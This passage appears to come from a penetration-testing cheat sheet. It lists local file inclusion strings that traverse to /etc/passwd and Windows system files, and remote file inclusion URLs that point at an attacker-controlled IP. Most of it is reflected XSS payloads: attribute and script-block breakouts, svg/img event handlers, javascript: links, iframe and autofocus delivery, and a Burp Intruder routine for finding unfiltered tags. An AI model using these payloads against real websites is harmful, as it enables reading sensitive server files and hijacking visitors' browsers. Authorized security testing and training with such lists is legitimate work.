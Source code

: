 #### Local File Inclusion
```sh
../../../../../../../../../etc/passwd
..\..\..\..\..\..\..\..\..\Windows\system.ini
..\..\..\..\..\..\..\..\..\boot.ini
```

#### Remote File Inclusion
```sh
http://www.google.com
http://<controlled-ip>
```

## Reflected XSS (Cross-Site Scripting)

### Context and Payloads
#### AccessKey Attribute
```html
<url>/?%27accesskey=%27<key>%27onclick=%27alert(1)
```

#### HTML Parameter
```html
"><script>...</script>
"><svg onload="...">
"><img src=. onerror="...">
```

Anchor href parameter poisoning:
```html
href="javascript:'...'"
```

#### HTML Tags
1. Find vulnerable field.
2. Send request to Burp Intruder as `<§[payload]§>` to find unfiltered tags.
3. Set the payload to a list of tags.
4. After finding an unfiltered tag, set the payload to `<[tag]+§[payload]§="alert()">`.
5. Set the payload to a list of events.
6. The basic payload will be `<[tag]+[event]="[js]">`.

Deliver through IFrame:
```html
<iframe src="<url>" onload="...">
```

Deliver with custom tag with autofocus:
```html
<script>
location = "<url>/?search=<xss id='x' onfocus='...' tabindex=1>#x";
</script>
```

#### Javascript Block
Escape from string such as `var x = 'input'`:
```html
</script><script>...</script>
```
